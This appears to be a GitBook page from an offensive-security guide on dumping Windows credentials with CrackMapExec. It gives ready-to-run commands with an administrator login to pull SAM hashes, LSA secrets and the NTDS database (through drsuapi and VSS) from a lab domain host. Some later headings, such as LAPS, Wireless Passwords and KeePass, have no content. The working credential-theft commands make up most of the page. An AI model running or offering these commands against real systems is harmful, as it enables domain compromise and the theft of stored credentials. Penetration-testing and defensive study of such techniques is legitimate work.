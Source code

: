 ```yaml
---
description: >-
  Learn how to Dump Credentials with CrackMapExec and move laterally inside
  infrastructures.
coverY: 0
---
```


# 🔥 Dump Credentials with CrackMapExec

### Environment Credentials

#### Dump Credentials from SAM File

{% code overflow="wrap" %}
```
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs --sam
```
{% endcode %}

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>SAM Dump</p></figcaption></figure>

#### LSA

{% code overflow="wrap" %}
```bash
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs --lsa
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>LSA Dump</p></figcaption></figure>

#### LAPS

#### NTDS drsuapi

{% code overflow="wrap" %}
```
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs --ntds
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption><p>Dump NTDS DRSUAPI</p></figcaption></figure>

#### NTDS VSS

{% code overflow="wrap" %}
```
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs --ntds vss
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Applications Credentials

#### Wireless Passwords

#### KeePass Databases
